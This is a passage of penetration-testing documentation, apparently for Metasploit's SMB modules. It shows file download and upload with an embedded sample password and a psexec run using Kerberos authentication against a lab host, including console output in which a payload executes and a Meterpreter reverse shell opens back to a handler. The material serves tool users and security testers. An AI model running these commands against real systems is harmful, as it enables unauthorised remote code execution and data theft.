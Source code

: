 ### SMB Files

Download a file:

```
use auxiliary/admin/smb/download_file
run smb://a:p4$$w0rd@192.168.123.13/my_share/helloworld.txt
```

Upload a file:

```
use auxiliary/admin/smb/upload_file
echo "my file" > local_file.txt
run smb://a:p4$$w0rd@192.168.123.13/my_share/remote_file.txt lpath=./local_file.txt
```

### Kerberos Authentication

Details on the Kerberos specific option names are documented in [[Kerberos Service Authentication|kerberos/service_authentication]]

Running psexec against a host:

```msf
msf > use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
[*] Meterpreter session 6 opened (192.168.123.1:4444 -> 192.168.123.13:49738) at 2023-01-18 12:09:13 +0000

meterpreter >
```
